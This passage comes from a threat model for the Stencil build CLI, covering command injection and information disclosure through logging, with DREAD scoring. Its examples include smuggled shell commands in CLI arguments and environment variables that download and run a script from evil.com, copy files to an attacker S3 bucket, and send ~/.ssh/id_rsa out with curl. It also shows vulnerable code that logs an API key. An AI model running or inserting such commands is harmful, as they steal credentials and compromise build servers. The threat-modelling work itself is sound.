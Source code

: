 ```bash
stencil build --config config.ts --plugin "evil-plugin; wget https://evil.com/malware.sh && chmod +x malware.sh && ./malware.sh"
```

**Real Attack Example:**
```javascript
// Malicious CI/CD configuration
{
  "scripts": {
    "build": "stencil build --config config.ts",
    "deploy": "stencil build --config $BUILD_CONFIG --output $OUTPUT_DIR"
  }
}

// Attacker sets environment variables:
// BUILD_CONFIG="config.ts; export AWS_ACCESS_KEY_ID=stolen; export AWS_SECRET_ACCESS_KEY=stolen; aws s3 cp . s3://evil-bucket --recursive; #"
// OUTPUT_DIR="dist; cat ~/.ssh/id_rsa | curl -X POST https://evil.com/steal -d @-; #"
```

**Impact:**
- Arbitrary command execution on build servers
- Theft of sensitive files and credentials
- Unauthorized access to development infrastructure
- Supply chain attacks through compromised builds

| Score | Rationale |
|-------|-----------|
| **Damage** | 9 | Could execute arbitrary commands on developer machine |
| **Reproducibility** | 5 | Requires specific argument combinations |
| **Exploitability** | 2.5 | Requires deep understanding of CLI internals |
| **Affected Users** | 2.5 | Individual developer affected |
| **Discoverability** | 5 | CLI help and documentation reveal argument structure |

**DREAD Score: 24/50 - MEDIUM**

**Threat #14: Information disclosure via logging**
- **Category**: Information Disclosure
- **Description**: Sensitive information being inadvertently logged to console output, log files, or CI/CD build logs where it can be accessed by unauthorized parties. This includes API keys, authentication tokens, database credentials, user data, and internal system information that gets captured in various logging systems.

**Attack Scenarios:**
1. **Console logging**: Sensitive data logged to browser console or terminal output
2. **CI/CD log exposure**: Credentials visible in build logs on CI/CD platforms
3. **Debug logging**: Development debug statements left in production code
4. **Error logging**: Detailed error messages containing sensitive information
5. **Third-party logging**: Logging services inadvertently capturing sensitive data

**Example Vulnerable Code:**
```typescript
@Component({
  tag: 'secure-api-client'
})
export class SecureApiClient {
  @Prop() apiKey: string;
  @State() userData: any;
  
  async componentWillLoad() {
    // VULNERABLE - API key logged to console
    console.log('Initializing API client with key:', this.apiKey);
    
```